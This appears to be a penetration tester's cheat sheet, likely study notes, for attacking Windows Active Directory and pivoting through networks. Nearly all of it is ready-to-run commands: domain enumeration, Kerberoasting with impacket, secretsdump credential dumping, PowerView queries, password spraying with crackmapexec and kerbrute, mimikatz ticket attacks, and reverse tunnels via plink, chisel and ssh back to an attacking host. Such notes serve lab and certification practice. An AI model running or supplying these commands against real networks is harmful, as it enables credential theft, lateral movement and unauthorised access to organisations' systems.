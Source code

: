 # Active directory

```
net user /domain
net group /domain
net view /domain
```

Check for passwords stored

Check for hash or tickets.

Check with Bloodhound if nothing else is find

Kerberoasting:
`impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request`

Secretsdump:
`secretsdump.py <domain>/<user>:<password>@<IP>`

Powerview:
```
Import-Moduel .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetGroup
Get-NetComputer
Get-NetSession -ComputerName files04 -Verbose
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-ObjectAcl -Identity <user>
Convert-SidToName <sid/objsid>
```

`crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success`
`kerbrute passwordspray -d corp.com .\usernames.txt "pass"`

Pass the ticket: mimikatz

Golden ticket: mimikatz

# Pivoting/Port Forwarding

`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

```
./chisel server -p 9002 -reverse -v
./chisel client <RHOST>:9002 R:9003:127.0.0.1:8888
```

`ssh user@<RHOST> -oKexAlgorithms=+diffie-hellman-group1-sha1`

```
ssh -R 8080:<LHOST>:80 <RHOST>
ssh -L 8000:127.0.0.1:8000 <USERNAME>@<RHOST>
ssh -N -L 1234:127.0.0.1:1234 <USERNAME>@<RHOST>

ssh -L 80:<LHOST>:80 <RHOST>
ssh -L 127.0.0.1:80:<LHOST>:80 <RHOST>
ssh -L 80:localhost:80 <RHOST>
```

